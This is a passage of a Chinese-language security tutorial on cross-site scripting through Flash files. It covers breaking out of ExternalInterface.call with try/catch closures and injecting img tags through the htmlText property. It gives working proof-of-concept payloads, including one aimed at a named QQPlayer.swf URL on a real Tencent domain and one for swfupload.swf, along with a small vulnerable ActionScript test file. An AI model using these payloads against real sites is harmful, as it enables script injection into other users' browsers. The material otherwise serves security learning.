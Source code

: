 ![flash6](../pictures/flash6.png)  
PS. 此处ExternalInterface.call 调用的函数名，编写Flash的时候设置了alert，因此此处会弹两次，一般情况下函数名是不能够被控制的，这样我们使得前面的函数执行异常，执行catch中的js 即可，如 `http://static.video.qq.com/QQPlayer.swf?v=\%22));}catch%20(e){alert(1);}//`，如果参数值是从xml 文件节点读取，可以将节点写成 `<menu name="日 志" href="构造点\&quot;))}catch(e){alert(1)}//构造点" />`。  
类似的闭合情形：   
`try { __flash_toXML(SWFUpload.instances[""])}catch(e){alert(1);}//"]).flashReady("参数1")) ; } catch(e) { "<undefined>" }`  
利用：`swfupload.swf?movieName="])}catch(e){alert(1);}//`  


### Flash缺陷参数-htmlText  
Flash支持在Flash里内嵌html，支持的标签img标签，a标签等。 img标签可以通过src参数引入一个Flash文件，类似与XSF一样。  
 本着学习的原则，本地创建了Flash文件，  
``` actionScript
import fl.controls.TextArea;
var a:String = root.loaderInfo.parameters.url
var t:TextArea = new TextArea()
t.width = 500
t.height = 300
t.htmlText += a
addChild(t)
```
从获取URL中的参数url，赋值给a，变量a直接输出到了Textarea t 中。 访问如下url：  
`http://192.168.4.70/htmltext.swf?url=%3Cimg%20src=%27./trace.swf%27%3E`

访问结果如下：  
![flash7](../pictures/flash7.png)  
PS.当反编译Flash文件，发现htmltext 输出点的时候，可以查看相关是否存在相关的可控的输入，可能存在xss。  
